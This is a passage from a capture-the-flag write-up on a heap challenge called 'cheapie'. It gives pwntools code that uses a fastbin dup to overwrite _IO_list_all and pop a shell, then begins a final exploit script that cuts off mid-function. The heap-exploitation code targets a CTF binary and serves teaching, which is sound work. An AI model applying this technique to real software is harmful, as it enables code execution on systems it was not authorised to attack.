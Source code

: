 Everything is ready, we just need to leverage the write-what-where primitive that we gained through the fastbin dup in order to write the `_IO_list_all` :
```python
chunk_C = malloc(0x68, "CCCC")
chunk_D = malloc(0x68, "DDDD")
free(chunk_C)
free(chunk_D)
free(chunk_C)

malloc(0x68, p64(libc.sym._IO_list_all - 35))
malloc(0x68, "yay")
malloc(0x68, "yay")
malloc(0x68, p8(0)*(35-16) + p64(file_addr))
```

And finally, **\*fireworks\***... called `exit` :
```python
exit()
io.interactive()
```

Run the script with the `REMOTE` argument (see the `start` function) to target the remote server and listen carefully for the shell *pop*ping
![](@attachment/Clipboard_2021-05-03-09-37-15.png)

Yay !

## Conclusion
Don't boycott `pwninit`, but don't blindly use it.


## Final exploit
```python
#!/usr/bin/python3

from pwn import *

exe = ELF("./cheapie")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")

gs = """
continue
"""

def start():
    if not args.REMOTE:
        p = process([ld.path, exe.path], env={"LD_PRELOAD": libc.path})
        gdb.attach(p, "continue\n")
    else:
        p = remote("challenges2.france-cybersecurity-challenge.fr", 4006)
    return p

def malloc(n, data):
    io.sendline("1")
    io.sendlineafter("Amount in bytes [16-1024]: ", f"{n}")
    io.recvuntil(f"malloc({n}) = ")
    chunk_addr = int(io.recvline().strip()[2:], 16)
    io.recvline()
    io.send(data)
    io.recvuntil(">>> ")
    return chunk_addr

def free(addr: int):
```